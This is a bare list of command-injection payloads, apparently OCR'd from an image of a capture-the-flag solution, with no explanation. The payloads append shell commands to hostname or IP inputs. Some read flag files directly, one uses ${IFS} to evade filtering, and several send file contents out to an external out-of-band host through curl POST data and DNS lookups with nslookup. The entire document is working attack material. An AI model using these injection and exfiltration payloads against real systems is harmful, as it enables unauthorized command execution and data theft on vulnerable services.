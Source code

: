 0-flag: google.com; cat /0-flag.txt
1-flag: google.com$(cat /etc/1-flag.txt)
2-flag: google.com;cat${IFS}/*/*2-flag.txt*
3-flag: google.com; curl http://wbymxygewoyuyyohmygyzsbpmd2whz4lv.oast.fun/ --data "$(cat /var/www/3-flag.txt)"

127.0.0.1; curl http://wbymxygewoyuyyohmygyzsbpmd2whz4lv.oast.fun/ --data "$(cat /bin/4-flag.txt)"

127.0.0.1; nslookup $(cat /bin/4-flag.txt).wbymxygewoyuyyohmygyzsbpmd2whz4lv.oast.fun;